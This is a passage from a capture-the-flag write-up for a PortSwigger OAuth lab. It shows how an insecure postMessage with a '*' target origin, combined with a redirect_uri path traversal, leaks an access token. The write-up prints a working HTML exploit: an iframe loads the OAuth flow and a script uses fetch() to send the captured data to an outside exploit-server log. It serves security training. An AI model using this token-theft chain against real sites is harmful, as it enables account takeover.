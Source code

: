 In the above JavaScript code, it's using the `postMessage()` method to send the `window.location.href` property to it's parent window.

**According to [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#syntax), using `*` as the `targetOrigin` is dangerous:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-6/images/Pasted%20image%2020230107063028.png)

In this case, it allows us to **post any messages from anywhere.**

Armed with above information, **we can combine the `redirect_url` and the `/post/comment/comment-form` GET request dangerous JavaScript method.**

Let's test it!

**`redirect_url` payload:**
```
redirect_uri=https://0a04002d03ae35a1c0cfc3ae00570017.web-security-academy.net/oauth-callback/../post/comment/comment-form
```

**Then, use the exploit server to host a HTML payload:**
```html
<html>
    <head>
        <title>OAuth-6</title>
    </head>
    <body>
        <iframe src="https://oauth-0a6500a1031335acc036c15102d500ee.web-security-academy.net/auth?client_id=jir8lvdj920kd648mrpo1&redirect_uri=https://0a04002d03ae35a1c0cfc3ae00570017.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=688455368&scope=openid%20profile%20email"></iframe>

        <script type="text/javascript">
            // Listen for web messages
            window.addEventListener('message', function(e) {
                // Output to the exploit server access log
                fetch('https://exploit-0a0300ec03083556c09bc2f601e90082.exploit-server.net/log?data=' + encodeURIComponent(e.data.data))
            }, false)
        </script>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-6/images/Pasted%20image%2020230107064532.png)

Exploit server access log:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-6/images/Pasted%20image%2020230107064552.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-6/images/Pasted%20image%2020230107064606.png)

It worked!
